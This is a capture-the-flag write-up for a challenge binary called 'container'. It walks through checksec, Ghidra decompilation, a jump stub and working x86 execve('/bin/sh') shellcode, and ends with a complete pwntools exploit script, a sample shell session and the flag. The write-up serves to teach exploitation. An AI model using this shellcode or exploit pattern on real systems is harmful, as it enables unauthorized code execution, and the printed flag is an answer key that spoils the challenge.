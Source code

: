 This is a writeup for the [NGACTF](https://nicerc.org/events/nga-capture-the-flag/) challenge *container*.
For this challenge the only file provided is an executiable binary.
### Inital steps
The best idea is to first get a basic idea of what security mesaures are already present in the binary so we know what is feasible and what is not. Running checksec will provide exactly the information we desire. 
```shell
troy@troyscomputer$ checksec container
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```
We can see that there are no stack canarries (so buffer overflows will be possible) as well as NX is disabled so the stack is executiable. 
### Getting a closer look
As they didn't provide source code, let's get a better look at whats going on by firing up [Ghidra](https://ghidra-sre.org/)
```c
int main() {
  char buf [5];
  char buf60 [60];
  code buf10 [10];
  void* code;
  do {
    printf("Choose a command:\n1: Use premium storage container 1\n2: Use premium storage container2\n3: Use secondary storage box\n4: Run the contents of your premium storage container\n>");
    fflush(stdout);
    fgets(buf,5,stdin);
    if (buf[0] == '1') {
      puts("This container provides 10 bytes of premium storage.");
      fflush(stdout);
      puts("A premium storage container allows you to run your content, too!");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets((char *)buf10,10,stdin);
    }
    if (buf[0] == '2') {
      printf("Sorry, but this container is already in use. You can use the premium storage incontainer1.");
      fflush(stdout);
    }
    if (buf[0] == '3') {
      puts("This storage box is for 50 bytes of extra content. You can\'t run it, but it won\'t takeup your premium storage space.");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets(buf60,50,stdin);
    }
    if (buf[0] == '4') {
      puts("Okay, I\'ll run the contents of your premium container!");
      fflush(stdout);
      code = buf10;
      (*(code *)code)();
    }
  } while( true );
}
```
The code looks pretty simple. It is contained entierly inside the main function which continually asks the user to pick an option that executes the desired function. Choosing "1" writes at most 10 bytes into buf10, "3" does the same for buf60, "2" does nothing for our purposes, and "4" *EXECUTES* buf10!
```c
puts("Okay, I\'ll run the contents of your premium container!");
fflush(stdout);
code = buf10;
(*(code *)code)();
```
Be sure to review [C function pointers](https://www.learn-c.org/en/Function_Pointers) if the syntax `(*(code *)code)();` looks *too* cryptic.
Great. All we need to do is select option 1, enter some x86 linux shellcode that gives a shell, select 4 to run our code, a shell pops up, and we get the flag!
[Shell Storm](http://shell-storm.org/shellcode/) is a great website that houses short snipits of machine code that do specific things. As this is a 32 bit linux executable we only want shellcode that for x86 linux.
[This shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) is perferect for our needs. It is equilivant to execve("/bin/sh") and happens to be nice and short at 21 bytes. Unfourtantly this is too long for buf10 because `fgets((char *)buf10,10,stdin);` will copy at most 9 characters into buf10 (don't forget the null-byte). However we can put the longer shell code into the bigger buffer and put code that simply jumps to the larger buffer into the 10 byte buffer.
The disassembly in Ghidra before the fgets call will tell us that the 60 byte buffer always starts 0x52 bytes below EBP.
```assembly
LEA        EAX=>buf60,[EBP -0x52]
PUSH       EAX
CALL       fgets
```
The code we need will have to jump to EBP -0x52 in order to invoke the 21 byte shellcode there. With the help of [this website](https://defuse.ca/online-x86-assembler.htm) creating the machine code is easy.
```assembly
mov    eax,ebp
sub    eax,0x52
jmp    eax
```
This assembler copies the stack base pointer (EBP) into eax then subtracts 0x52 (now eax points to the 60 byte buffer), finally the last instruction jumps there and starts executing our shellcode.
Clicking assemble gives us "\x89\xE8\x83\xE8\x52\xFF\xE0", the actual bytes of the machine code which will be executed by `(*(code *)code)();`
### Creating the exploit

Using pwn tools we can easily create a connect script the connects to their server and gives it our juicy code. The script is as easy as defining some constants and importing pwn tools,
```python
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"
```
Connectint to the remote server and waiting for the prompt,
```python
r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")
```
Choosing 1 and uploading the `jmp EBP-0x52` code
```python
r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)
```
Choosing 3 and sending the shellcode,
```python
r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)
```
And selecting 4 to run our jmp + shellcode:
```python
r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```
A sample run:
```shell
troy@troyscomputer$ python maker.py
[+] Opening connection to golf.virginiacyberrange.net on port 40149: Done
Okay, I'll run the contents of your premium container!

[*] Switching to interactive mode
$ ls
bin
container
dev
flag
lib
lib32
lib64
$ cat flag
flag{ju5t_4_h0p_sk1p_and_4_jmp_to_exploit}
```

Heres the entire script:
```python
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"

r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")

r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)

r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)

r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```

